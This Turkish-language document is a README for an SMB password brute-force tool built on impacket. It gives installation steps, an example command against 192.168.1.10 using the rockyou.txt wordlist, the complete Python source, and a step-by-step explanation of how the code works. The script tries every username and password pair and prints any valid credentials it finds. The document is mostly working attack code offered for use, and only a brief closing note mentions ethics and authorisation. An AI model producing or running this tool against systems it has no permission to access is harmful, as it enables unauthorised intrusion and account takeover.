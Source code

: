 ### SMB Brute Force Script Dokümantasyonu

Bu dokümantasyon, `impacket` kütüphanesini kullanarak yazılmış olan SMB Brute Force Script'inin nasıl kullanılacağına dair detayları sağlar. Bu script, belirli bir hedef üzerinde sağlanan kullanıcı adı ve parola listelerindeki kombinasyonları deneyerek SMB giriş bilgilerini brute force yöntemiyle denemektedir.

#### Gereksinimler

Python'un yüklü olduğundan emin olun. Ayrıca `impacket` kütüphanesine de ihtiyacınız olacak, bunu `pip` kullanarak yükleyebilirsiniz:

```bash
pip install impacket
```

#### Script Açıklaması

Script şu işlevleri yerine getirir:

1. **smb_login_test**: Belirtilen kullanıcı adı ve parola ile hedef IP'deki SMB servisine giriş yapmayı dener.
2. **load_list_from_file**: Bir dosyadan kullanıcı adı veya parola listesini yükler, her bir girişin başındaki ve sonundaki boşlukları temizler.
3. **brute_force_smb**: Kullanıcı adı ve parola kombinasyonları üzerinden iterasyon yapar, her kombinasyon için `smb_login_test` fonksiyonunu çağırır.

#### Kullanım

Script'i `smb_bruteforce.py` adıyla bir dosyaya kaydedin ve gerekli argümanlarla birlikte terminalden çalıştırın.

##### Komut Satırı Argümanları

- `target_ip`: Hedef SMB sunucusunun IP adresi.
- `-l` veya `--userlist`: Kullanıcı adı listesini içeren dosyanın yolu.
- `-p` veya `--passlist`: Parola listesini içeren dosyanın yolu.

##### Örnek Komut

```bash
python smb_bruteforce.py 192.168.1.10 -l common_user.txt -p rockyou.txt
```

Bu örnekte:
- `192.168.1.10` hedef SMB sunucusunun IP adresidir.
- `-l common_user.txt` kullanıcı adı listesinin dosya yolunu belirtir.
- `-p rockyou.txt` parola listesinin dosya yolunu belirtir.

#### Script Açıklaması

```python
import argparse
from impacket.smbconnection import SMBConnection
import time

def smb_login_test(target_ip, username, password, domain='', timeout=10):
    try:
        smb_connection = SMBConnection(target_ip, target_ip)
        smb_connection.login(username, password, domain)
        print(f"[+] Login successful on {target_ip} with username '{username}' and password '{password}'")
        smb_connection.logoff()
        return True
    except Exception as e:
        print(f"[-] Login failed on {target_ip} with username '{username}' and password '{password}'")
        return False

def load_list_from_file(file_path):
    try:
        with open(file_path, 'r', encoding='ISO-8859-1') as file:
            return [line.strip() for line in file.readlines()]
    except Exception as e:
        print(f"Error reading {file_path}: {e}")
        return []

def brute_force_smb(target_ip, username_list, password_list, domain=''):
    for username in username_list:
        for password in password_list:
            if smb_login_test(target_ip, username, password, domain):
                print(f"[!] Valid credentials found: {username} / {password}")
                return True
            time.sleep(1)  # Sleep to avoid rapid requests that may lock accounts
    return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SMB Brute Force Script")
    parser.add_argument("target_ip", help="Target IP address")
    parser.add_argument("-l", "--userlist", required=True, help="Path to the username list file")
    parser.add_argument("-p", "--passlist", required=True, help="Path to the password list file")

    args = parser.parse_args()

    target_ip = args.target_ip
    username_file = args.userlist
    password_file = args.passlist

    username_list = load_list_from_file(username_file)
    password_list = load_list_from_file(password_file)

    if username_list and password_list:
        brute_force_smb(target_ip, username_list, password_list)
    else:
        print("Username list or password list is empty.")
```

### Detaylı Adımlar

1. **Gerekli Kütüphanelerin İçe Aktarılması**:
   Script, gerekli kütüphaneleri içe aktarır: `argparse` komut satırı argümanlarını işlemek için, `impacket` kütüphanesinden `SMBConnection` SMB bağlantıları için ve `time` login denemeleri arasında bekleme süresi eklemek için kullanılır.

2. **smb_login_test Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, sağlanan kullanıcı adı ve parola ile SMB bağlantısı kurmaya çalışır. Başarılı olursa, başarılı olduğunu belirtir ve bağlantıyı kapatır. Başarısız olursa, hatayı belirtir.

3. **load_list_from_file Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, belirtilen dosyayı okuyarak bir liste döner. Her satırı okur ve başındaki ve sonundaki boşlukları temizler. `ISO-8859-1` kodlamasını kullanarak özel karakterleri de düzgün okur.

4. **brute_force_smb Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, kullanıcı adı ve parola listeleri üzerinden iterasyon yapar ve her kombinasyon için `smb_login_test` fonksiyonunu çağırır. Başarılı giriş bulunursa, geçerli kimlik bilgilerini yazdırır.

5. **Ana Çalışma Bloğu**:
   Script, komut satırı argümanlarını parse eder ve hedef IP, kullanıcı adı listesi dosyası ve parola listesi dosyası için argümanları alır. Bu listeleri yükler ve `brute_force_smb` fonksiyonunu çağırarak brute force saldırısını başlatır.

### Notlar

- **Etik Kullanım**: Bu script yalnızca etik hacking ve hedef sistemin sahibinin izni ile kullanılmalıdır.
- **Yasal Sonuçlar**: Bu script'in yetkisiz kullanımı yasa dışı olabilir ve cezai yaptırımlara tabi olabilir. Her zaman herhangi bir penetration testi aracını çalıştırmadan önce açık izin alın.

Bu dokümantasyon, SMB Brute Force Script'inin nasıl kullanılacağını ve anlaşılacağını sağlayan kapsamlı bir rehber sunar. Sorularınız varsa veya daha fazla yardıma ihtiyaç duyarsanız, lütfen bana bildirin.
